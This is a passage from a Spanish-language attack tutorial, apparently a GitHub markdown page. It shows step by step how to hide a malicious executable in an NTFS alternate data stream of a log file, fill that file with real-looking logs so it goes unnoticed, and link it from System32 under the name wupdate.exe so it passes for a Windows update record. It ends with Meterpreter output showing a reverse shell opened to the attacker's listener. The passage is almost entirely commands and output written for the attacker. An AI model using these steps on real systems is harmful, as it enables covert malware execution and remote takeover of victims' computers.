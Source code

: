 ```shell
mkdir C:\Temp\
```

```shell
cd C:\Temp\
```

Una vez dentro de la carpeta con el archivo (Esto se puede configurar para que cuando habra el archivo se cree todo esto con un script en el archivo oculto, asi seria mas realista).

```shell
type payload.exe > windowslog.txt:PuTTY.exe
```

Ahora lo que haria un atacante sera meter informacion legitima y real dentro del archivo de `windowslog.txt` para no levantar sospechas.

```shell
notepad windowslog.txt
```

Y dentro se meteran los logs o informacion para que no sea cantoso.

Ahora podremos eliminar el archivo `payload.exe`.

```shell
del payload.exe
```

Ahora para que funcione el ejecutable craeremos un enlace simbolico a el en el sistema de la siguiente forma.

```shell
cd Windows\System32
```

Crearemos un link llamado `wupdate.exe` para que parezca que es un registro de las actualizaciones de windows.

```shell
mklink wupdate.exe C:\Temp\windowslog.txt:PuTTY.exe
```

Y si desde la terminal ejecutamos como atacantes el archivo `wupdate.exe` veremos que se ejecuta el `PuTTY.exe` que seria el archivo malicioso que le hayamos metido nosotros.

```shell
wupdate
```

o

```shell
start C:\<PATH>\wupdate.exe
```

Y con esto ya estaria ejecutado de manera oculta el `.exe`, por lo que si nos vamos a donde teniamos la escucha de metasploit, veremos que tenemos una shell.

```
[*] Started reverse TCP handler on 192.168.5.199:7777 
[*] Sending stage (201798 bytes) to 192.168.5.138
[*] Meterpreter session 1 opened (192.168.5.199:7777 -> 192.168.5.138:49185) at 2024-07-28 14:56:45 +0200

meterpreter > getuid
Server username: vuln-smb\diseo
```
